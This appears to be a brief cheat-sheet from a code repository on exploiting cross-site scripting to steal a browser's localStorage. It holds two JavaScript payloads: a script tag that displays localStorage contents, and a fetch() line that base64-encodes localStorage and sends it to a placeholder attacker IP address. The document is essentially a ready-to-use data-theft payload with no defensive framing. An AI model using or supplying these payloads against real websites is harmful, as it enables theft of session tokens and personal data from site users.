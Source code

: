 # Getting localStorage with XSS
Prints out the localstorage

```javascript
<script>alert(JSON.stringify(localStorage))</script>
```

## base64 encode and send to attacker machine
```javascript
fetch(`http://<ATTACKER-IP>/${btoa(JSON.stringify(localStorage))}`)
```